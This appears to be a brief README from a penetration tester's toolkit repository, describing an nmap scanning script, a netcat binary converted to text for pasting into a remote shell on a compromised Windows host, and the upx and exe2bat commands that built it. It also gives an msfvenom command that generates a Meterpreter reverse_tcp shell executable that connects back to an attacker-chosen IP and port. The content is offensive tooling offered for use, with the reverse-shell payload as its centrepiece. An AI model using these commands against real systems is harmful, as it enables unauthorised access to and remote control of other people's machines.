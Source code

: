 # t0w3ntum

### Files

##### nmap.sh - Does a full fast port scan and then individual intense scans on each port

##### tools/nc.txt

Useful if you have no other way of copying netcat over to a target windows
host. To use, copy the contents of nc.txt and paste it into the remote shell. 
I use xclip like so. 

	cat nc.txt | xclip -selection clipboard

The file was created with the following method. 

	upx nc.exe
	wine exe2bat.exe nc.exe nc.txt

### Commands

##### Generate a meterpreter reverse_tcp shell. 

	msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe
